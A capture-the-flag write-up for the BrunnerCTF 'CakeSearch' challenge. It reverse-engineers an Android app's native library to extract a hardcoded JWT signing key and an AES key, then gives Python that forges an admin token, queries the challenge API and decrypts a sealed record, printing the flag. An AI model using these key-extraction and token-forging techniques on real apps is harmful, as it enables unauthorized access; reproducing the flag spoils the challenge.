

## Challenge Info

| Field | Details |
| --- | --- |
| CTF | BrunnerCTF |
| Challenge | CakeSearch |
| Category | Android / Reverse Engineering / Web |

## Solution

We start by throwing the APK into jadx and looking at what we're dealing with.

The app is called CakeSearch, a job posting board for "Brunnerne Inc." The challenge description hints that only some postings are visible, which already tells us there's something being hidden.

Looking at the manifest, just few activities. We move on to the source.

The interesting activities are:
- `PositionsActivity` — the screen that shows job listings
- `TokenSigner` — sits inside a `crypto` subpackage, which immediately stands out

### PositionsActivity

Inside `onCreate()`, the first thing that we should notice is:

```java
WebView webView = (WebView) findViewById(R.id.webview);
settings.setJavaScriptEnabled(true);

webView.addJavascriptInterface(new h7(uqVar, new TokenSigner()), "CakeBridge");
webView.loadUrl("https://cakesearch.challs.brunnerne.xyz:31000/positions");
```

So the entire job board is just a WebView loading a remote URL. More importantly, it exposes a JavaScript bridge called `CakeBridge` to that page  means that the web page can call native Android code directly from JavaScript.

### The Bridge (h7.java)

Look at the methods having `@JavascriptInterface` (these are callable from the page):

```java
@JavascriptInterface
public final String getToken() {
    String b2 = this.f143b.b(this.a);
    return b2 == null ? "" : b2;
}

@JavascriptInterface
public final String decrypt(String str) {
    try { return this.c.w(str); }
    catch (Exception e) {
        Log.w("CakeSearch", "Could not unseal a requisition payload", e);
        return "";
    }
}

@JavascriptInterface
public final String getAppVersion() { return "2.1-sealed"; }
```

The log message helps us alot:  `"Could not unseal a requisition payload"`. Some job postings arrive sealed (encrypted) and this `decrypt()` method is what unlocks them. The version string `"2.1-sealed"`shows that it is intentionally sealed. That's the "or at least some of them..." from the description of the challenge.

### TokenSigner.java — things go native

```java
public final class TokenSigner {
    static {
        System.loadLibrary("cakesearch"); // loads libcakesearch.so
    }

    private final native byte[] nativeContentKey();
    private final native String nativeSign(String str);

    public final String b(uq uqVar) {
        long currentTimeMillis = System.currentTimeMillis() / 1000;
        ii iiVar = new ii();
        iiVar.f(uqVar.f349b, "sub");
        iiVar.f(Integer.valueOf(uqVar.a), "uid");
        iiVar.f("user", "role");     // <-- always hardcoded as "user"
        iiVar.f(Long.valueOf(currentTimeMillis), "iat");
        iiVar.f(Long.valueOf((uqVar.c * 60) + currentTimeMillis), "exp");
        return nativeSign(iiVar.toString());
    }
}
```

We can figure out two things from here:

1. `role` is always hardcoded to the literal string `"user"` . there is no way through the app that can change this
2. Both `nativeContentKey()` and `nativeSign()` are `native` methods . their actual code lives in `libcakesearch.so`, not in Java code.

We then check the decrypt routine to understand the crypto format:

```java
public String w(String str) {
    byte[] decode = Base64.decode(str, 0);
    byte[] nonce = Arrays.copyOfRange(decode, 0, 12);        
    byte[] ciphertext = Arrays.copyOfRange(decode, 12, decode.length);
    byte[] key = tokenSigner.a();                            

    Cipher cipher = Cipher.getInstance("AES/GCM/NoPadding");
    cipher.init(2, new SecretKeySpec(key, "AES"), new GCMParameterSpec(128, nonce));
    return new String(cipher.doFinal(ciphertext), StandardCharsets.UTF_8);
}
```

Sealed payloads are `base64(12-byte nonce || ciphertext || 16-byte GCM tag)`, decrypted with **AES-256-GCM**. Standard crypto — we just need the key.

So both problems shows us the same thing: recover the secrets keys  hidden inside `libcakesearch.so`.

---

### Poking at the native library

Before loading the binary into a disassembler, using `strings` gives away alot of stuff:

```bash
strings -a -n 6 libcakesearch.so | grep -iE 'key|sign|hmac|content|java'
```

Java_dk_brunnerne_cakesearch_crypto_TokenSigner_nativeContentKey
Java_dk_brunnerne_cakesearch_crypto_TokenSigner_nativeSign
cakesearch-content-v1
cs_content_key
cs_hmac_sha256
cs_sign_payload
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9


That last string is obviously base64, decoding it gives `{"alg":"HS256","typ":"JWT"}`. So the tokens are HS256 JWTs.

Running `nm -D` confirms the exported symbols with their addresses:

```bash
nm -D libcakesearch.so
```

0000000000000c30 T cs_content_key
00000000000016c8 T cs_hmac_sha256
0000000000000d34 T cs_sign_payload
00000000000010d4 T Java_dk_brunnerne_cakesearch_crypto_TokenSigner_nativeContentKey
0000000000001008 T Java_dk_brunnerne_cakesearch_crypto_TokenSigner_nativeSign


`T` means these are real functions defined inside this binary, not borrowed from a library. The names weren't stripped, which gives us exact targets to jump to.

---

### Reversing with Ghidra

We load the x86_64 build into Ghidra, run auto-analysis, and navigate straight to `cs_content_key` in the Symbol Tree.

The decompiled output:

```c
void cs_content_key(undefined8 param_1)
{
    long lVar1;
    byte local_34 [32];
    int local_14;

    lVar1 = 0;
    local_14 = -0x35b1a15e;    // hardcoded seed
    do {
        local_14 = local_14 * 0x41c64e6d + 0x3039;
        local_34[lVar1] = null_ARRAY_0010077b[lVar1]
                        ^ (byte)((uint)local_14 >> 0x10);
        lVar1 = lVar1 + 1;
    } while (lVar1 != 0x20);

    cs_hmac_sha256(local_34, 0x20, "cakesearch-content-v1", 0x15, param_1);
    return;
}
```

The constants `0x41c64e6d` and `0x3039` are actually the well-known constants of the classic C `rand()` function — and the seed `0xca4e5ea2` is hardcoded right there in the binary. So we can just run the same sequence ourselves in Python and get the exact same output.

The logic is:



Checking `cs_sign_payload` confirms it uses the exact same deobfuscation loop , same seed, same blob at `0x10077b`, but the deobfuscated bytes are passed directly as the HMAC key for signing the JWT, with no extra step.

So the same underlying secret is used two different ways:

| Purpose | How derived |
|---|---|
| JWT signing key | Raw deobfuscated 32 bytes |
| AES content key | `HMAC-SHA256(deobfuscated, "cakesearch-content-v1")` |

---

### Extracting the keys

We read the 32-byte obfuscated blob straight out of the binary (Ghidra shows it at `0x10077b`) and reimplement the deobfuscation loop in Python:

```python
import hmac, hashlib

# 32-byte blob from address 0x10077b in Ghidra
blob = bytes.fromhex("14136132bbdb03e5392dbbd7d404270ac17b471da3b57e5786a3ba5df37db950")

seed = 0xca4e5ea2
deobf = bytearray(32)

for i in range(32):
    seed = (seed * 0x41c64e6d + 0x3039) & 0xFFFFFFFF
    deobf[i] = blob[i] ^ ((seed >> 16) & 0xFF)

signing_key = bytes(deobf)
content_key = hmac.new(signing_key, b'cakesearch-content-v1', hashlib.sha256).digest()

print("Signing key :", signing_key.decode())
print("Content key :", content_key.hex())
```

Signing key : kagemand-offsite-q3-2026-synergy
Content key : 0dd4c156dc038517b5251dbbc13d89d4aa528a80274d25c0594fd53acfc48720


The output is clean readable ASCII — which is a good sign the loop reconstruction was correct.

---

### Forging the JWT and hitting the API

Now that we have the signing key, we can build our own JWT with `role: "admin"`  and sign it with the same key the server uses to verify:

```python
import json, base64, hmac, hashlib, requests, urllib3
from Crypto.Cipher import AES
urllib3.disable_warnings()

SIGNING_KEY = b'kagemand-offsite-q3-2026-synergy'
CONTENT_KEY = bytes.fromhex("0dd4c156dc038517b5251dbbc13d89d4aa528a80274d25c0594fd53acfc48720")

def b64url(b):
    return base64.urlsafe_b64encode(b).rstrip(b'=').decode()

header  = {"alg": "HS256", "typ": "JWT"}
payload = {
    "sub": "admin@brunnerne.dk",
    "uid": 1,
    "role": "admin",       
    "iat": 1700000000,
    "exp": 9999999999
}

h   = b64url(json.dumps(header,  separators=(',',':')).encode())
p   = b64url(json.dumps(payload, separators=(',',':')).encode())
sig = hmac.new(SIGNING_KEY, f"{h}.{p}".encode(), hashlib.sha256).digest()
token = f"{h}.{p}.{b64url(sig)}"

resp = requests.get(
    "https://cakesearch.challs.brunnerne.xyz:31000/api/positions",
    headers={"Authorization": f"Bearer {token}"},
    verify=False
)
print(resp.text)
```

The response comes back with four job postings, a new one has came:

```json
{
  "id": 1337,
  "title": "Chief Cake Officer (CCO)",
  "visibility": "internal",
  "summary": "RESTRICTED REQUISITION - BOARD EYES ONLY. Authorised staff may retrieve the full record at /api/positions/1337/details."
}
```

`id: 1337`, `visibility: "internal"`  ,it's telling us where to go. We now send a req to that endpoint:

```python
resp = requests.get(
    "https://cakesearch.challs.brunnerne.xyz:31000/api/positions/1337/details",
    headers={"Authorization": f"Bearer {token}"},
    verify=False
)
print(resp.text)
```

The response comes back as a sealed JSON object:

```json
{
  "alg": "A256GCM",
  "enc": "BURCCb/LSDrfjjheZcn+dbw6z6YNzXHr1NBzAht9w5Ca..."
}
```

We decrypt it using the content key we derived earlier:

```python
def unseal(b64_str):
    raw    = base64.b64decode(b64_str + "==")
    nonce  = raw[:12]
    ct     = raw[12:-16]
    tag    = raw[-16:]
    cipher = AES.new(CONTENT_KEY, AES.MODE_GCM, nonce=nonce)
    return cipher.decrypt_and_verify(ct, tag).decode()

data = resp.json()
print(unseal(data["enc"]))
```

Output:

```json
{
  "title": "Chief Cake Officer (CCO)",
  "internal_notes": "Candidate must be comfortable with the phrase 'not for profit or anything'. Onboarding credential below.",
  "onboarding_credential": "brunner{cl13nt_s1d3_r0l3s_4r3_h4lf_b4k3d}"
}
```

## Flag

```text
Flag : brunner{cl13nt_s1d3_r0l3s_4r3_h4lf_b4k3d}
```

